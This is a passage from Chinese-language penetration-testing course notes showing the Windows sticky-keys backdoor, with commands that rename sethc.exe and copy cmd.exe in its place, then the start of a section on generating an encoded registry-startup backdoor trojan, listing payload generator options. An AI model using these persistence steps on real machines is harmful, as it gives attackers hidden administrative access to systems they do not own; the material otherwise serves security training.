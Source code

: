 核心思想：将`sethc.exe`替换为`cmd.exe`

重命名或删除原粘滞键程序：`sethc.exe`，将`cmd.exe`程序复制一份并重命名为`sethc.exe`

```bash
C:\Windows\system32>whoami
lonelyor-win10\lonelyor

C:\Windows\system32>rename sethc.exe sethc.exe.bak

C:\Windows\system32>copy cmd.exe sethc.exe
已复制         1 个文件。
```

将被替换的`sethc.exe`的文件所有者改为`Administrator`，并赋予完全控制权限

![image-20231104170150512](%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95v2-%E5%85%A8%E6%A0%88%E5%AE%89%E5%85%A8%E8%BF%9B%E9%98%B6%E7%8F%AD.assets/image-20231104170150512.png)

## 2. 注册表启动后门

### 2.1 生成后门木马

+ `-p --payload` ：指定payload
+ `-e --encoder`：指定编码
+ `-i --iterations `：指定编码次数
+ `-f --format`：指定输出格式
+ `-o --output`：指定输出的文件名
